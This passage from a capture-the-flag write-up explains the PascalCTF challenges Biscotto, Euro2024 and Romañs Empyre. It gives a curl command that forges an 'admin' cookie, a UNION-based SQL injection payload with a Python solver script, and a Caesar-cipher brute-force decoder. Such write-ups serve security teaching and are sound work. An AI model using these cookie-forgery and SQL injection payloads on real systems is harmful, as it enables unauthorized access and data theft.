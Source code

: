 The flag can therefore be found with this command:
```sh
#!/bin/sh
curl --cookie "user=admin" https://biscotto.challs.pascalctf.it/me
```

The vulnerability lies in the **me** function, where the session cookie, which is not encrypted, is used to verify the actual username. To obtain the flag, one simply needs to modify the 'user' cookie, setting its value to *admin* to access the flag

### Euro2024
The challenge involves a web application that provides statistics for different groups participating in a tournament. The objective is to exploit an SQL Injection vulnerability to extract the flag.

The provided solution uses an SQL Injection attack to retrieve the flag from the database. Below is the breakdown of the approach:

#### 1. Understanding the Vulnerability
The endpoint `/api/group-stats` appears to be vulnerable to SQL Injection. The input parameter `group` is directly embedded into an SQL query without proper sanitization.

#### 2. Crafting the Payload
The payload used to exploit the vulnerability is:

```sql
' UNION SELECT flag, null, null, null, null, null, null, null FROM FLAG; -- -
```

This payload:
- Breaks out of the existing query context using `' UNION SELECT`.
- Selects the `flag` column from the `FLAG` table.
- Uses `null` values to match the expected number of columns.
- Comments out the rest of the SQL query to prevent syntax errors.

This is the actual code used also by the checker:
```python
#!/usr/bin/env python3
import requests
URL = 'http://localhost:8002'
PAYLOAD = "' UNION SELECT flag" + ", null" * 7 + " FROM FLAG; -- -"

r = requests.post(URL + '/api/group-stats', data={'group' : PAYLOAD})
print(r.json()['data'][0]['group_id'])```
```

## Cryptography 🔒
### Romañs Empyre
This challenge `"encrypts"` the flag in a very simple way, **randomly** choosing a key used to encode the flag using the [`Caesar Cipher`](https://en.wikipedia.org/wiki/Caesar_cipher). The result of this encryption can be found in `output.txt` and can be decrypted using [`cyberchef.org`](https://gchq.github.io/CyberChef/) or by using the Python writeup attached to this challenge.

```py
#!/usr/bin/env python3
import string
alphabet = string.ascii_letters + string.digits + "{}_-.,/%?$!@#"

def romanize(input_string):
    for key in range(1, len(alphabet)):
        result = [""] * len(input_string)
        for i, c in enumerate(input_string):
            result[i] = alphabet[(alphabet.index(c) + key) % len(alphabet)]
        result = "".join(result)

        if "pascalCTF{" in result:
            return result
```